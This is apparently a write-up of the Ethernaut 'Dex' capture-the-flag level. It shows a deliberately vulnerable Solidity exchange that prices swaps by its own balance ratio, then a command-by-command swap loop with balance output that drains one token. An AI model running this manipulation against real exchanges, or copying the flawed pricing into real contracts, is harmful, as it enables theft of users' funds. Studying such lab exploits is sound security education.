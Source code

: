 ## Dex Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b0276F85EF92432fBd6529E169D9dE4aD337b1F)

## Solution

Because the exchange rate is based on the ratio of token1 to token2, we can continouly swap the two tokens for each other till there one of the tokens have no supply left in the contract due to solidity having no floating points.

### Walkthrough
1. call the dex's approve function so that we can make the swaps
```console
cast send $LEVEL_ADDRESS "approve(address,uint)" $LEVEL_ADDRESS 1000 --gas 90000 --private-key $PRIVATE_KEY
```

2. let's find the address of token1 and token2
```console
cast call $LEVEL_ADDRESS "token1()"
```
```console
cast call $LEVEL_ADDRESS "token2()"
```

3. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 10 --gas 250000 --private-key $PRIVATE_KEY
```
```
update of balances 

[Our balance]
token1 : 0
token2 : 20

[Dex balance]
token1 : 110 
token2 : 90
```

3. swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 20 --gas 250000 --private-key $PRIVATE_KEY
```
```
update of balances 

[Our balance]
token1 : 24
token2 : 0

[Dex balance]
token1 : 86 
token2 : 110
```

4. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 24 --gas 250000 --private-key $PRIVATE_KEY
```
```
update of balances 

[Our balance]
token1 : 0
token2 : 30

[Dex balance]
token1 : 110 
token2 : 80
```

5. swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 30 --gas 250000 --private-key $PRIVATE_KEY
```
```
update of balances 

[Our balance]
token1 : 41
token2 : 0 

[Dex balance]
token1 : 69
token2 : 110
```

6. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 41 --gas 250000 --private-key $PRIVATE_KEY
```
```
update of balances 

[Our balance]
token1 : 0
token2 : 65

[Dex balance]
token1 : 110 
token2 : 45
```

7. we cannot swap 65 `token2` to `token1` as we would expect to receive 158 `token1` in return which is more than the supply in the contract. To drain the contract for all 110 `token1`, we need to swap 45 `token2` to get 110 `token1`
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 45 --gas 250000 --private-key $PRIVATE_KEY
```
```
update of balances 

[Our balance]
token1 : 110
token2 : 20

[Dex balance]
token1 : 0 
token2 : 90
```

> Dex's token1 supply has now been drained
